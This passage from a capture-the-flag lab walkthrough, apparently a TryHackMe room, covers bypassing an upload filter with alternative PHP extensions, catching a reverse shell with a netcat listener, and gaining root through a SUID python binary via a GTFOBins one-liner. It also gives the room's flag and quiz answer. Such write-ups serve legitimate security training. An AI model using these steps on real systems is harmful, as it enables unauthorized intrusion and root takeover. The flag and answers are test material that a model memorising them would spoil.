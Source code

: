 **🎯 Alternative extensions to try:**
- `.phtml`
- `.php3`
- `.php4`
- `.php5`
- `.phar`

### 🎧 Netcat Listener Setup
```bash
# Start listener on chosen port
nc -lvnp 1234
```

### 🚀 Shell Execution
1. **Upload the modified script** via `/panel/`
2. **Navigate to uploads directory** `http://<TARGET_IP>/uploads/`
3. **Execute the script** by clicking on `php-reverse-shell.phtml`
4. **Check netcat listener** for connection

### 🏆 User Flag Discovery
```bash
# Search for user flag
find / -type f -name user.txt 2>/dev/null

# Found location: /var/www/user.txt
cat /var/www/user.txt
```

**🚩 User Flag:** `THM{y0u_g0t_a_sh3ll}`

## 🚀 Task 4: Privilege Escalation

### 🔍 SUID Binary Discovery
**Q1: Search for files with SUID permission, which file is weird?**  
**Answer:** `/usr/bin/python`

```bash
# Find SUID binaries
find / -type f -user root -perm -4000 2>/dev/null
```

**🎯 Interesting Finding:** `/usr/bin/python` with SUID permissions

### 🌐 GTFOBins Research
1. **Visit** [https://gtfobins.github.io/](https://gtfobins.github.io/)
2. **Search for** "python"
3. **Select** "SUID" section

### 💥 Privilege Escalation Exploit
```bash
# Execute the GTFOBins python SUID exploit
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

# Verify root access
whoami
# Expected output: root
```
